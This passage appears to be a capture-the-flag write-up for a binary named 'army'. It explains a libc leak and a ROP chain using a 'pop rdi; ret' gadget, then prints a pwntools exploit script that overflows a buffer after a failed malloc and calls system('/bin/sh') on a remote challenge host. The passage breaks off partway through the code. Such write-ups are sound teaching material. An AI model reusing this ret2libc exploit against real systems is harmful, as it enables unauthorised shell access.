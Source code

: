 We can't satisfy the constraints of a one_gadget so we will just use a ```pop rdi; ret``` that we can easily find with [ROPgadget[(https://github.com/JonathanSalwan/ROPgadget) and invoke system with '/bin/sh'.  
Here is the final exploit code (I copied the remote libc file to the local directory for easy usage).  
```python
#! /usr/bin/python

from pwn import *
import sys


def exploit(is_remote):
    global r
    
    if is_remote:
        r = remote('185.168.131.122', 6000)
        libc = ELF('./libc-2.23.so')
        bin_sh_offset = 0x18cd57 # Found it using libc-database
        print 'remote'
    else:
        r = process('./army')
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        bin_sh_offset = 0x1a3f20 # Found it using libc-database
        print 'local'
    
    puts_offset = libc.symbols['puts']
    system_offset = libc.symbols['system']
    pop_rdi_ret = 0x400d03 # pop rdi ; ret
    r.recvuntil('Luck : ')
    ''' Leak the address of puts inside libc and use it to calculate libc_base and the address of system and
        '/bin/sh' string in libc.'''
    leaked_address = parse_addr(r.recvline())
    print 'Leaked address:', hex(leaked_address)
    libc_base = leaked_address - puts_offset
    system_address = libc_base + system_offset
    bin_sh_address = libc_base + bin_sh_offset
    print 'libc address:', hex(libc_base)
    print 'system address:', hex(system_address)
    ''' Add a soldier with size 0x50 (enough to overwrite ret_addr + 2 qwords). The value of 
        global_answer_length will be 0x50. We then free the soldier (by invoking promotion).'''
    print 'bin_sh address:', hex(bin_sh_address)
    join_the_army('a', 1, 1, 0x50, 'b')
    promotion('a')
    ''' Add a soldier with size -1. That way we make malloc fail and global_answer_length will remain 50
        for our buffer overflow.'''
    join_the_army('a', 1, 1, -1, 'b')
    ''' Pad the buffer with 'A' untill we reach the return address. Overwrite the return address with a
        "pop rdi; ret" gadget. Give rdi the address of "/bin/sh" in libc and call system.'''
    payload = 'A'*0x38 + p64(pop_rdi_ret) + p64(bin_sh_address) + p64(system_address)
    promotion(payload)
    ''' Take controll over the IO and use the shell'''
    r.interactive()
    

def parse_addr(string):
    return u64(string[:8].rstrip('\n').ljust(8, '\x00'))
    
    
def menu():
    global r
```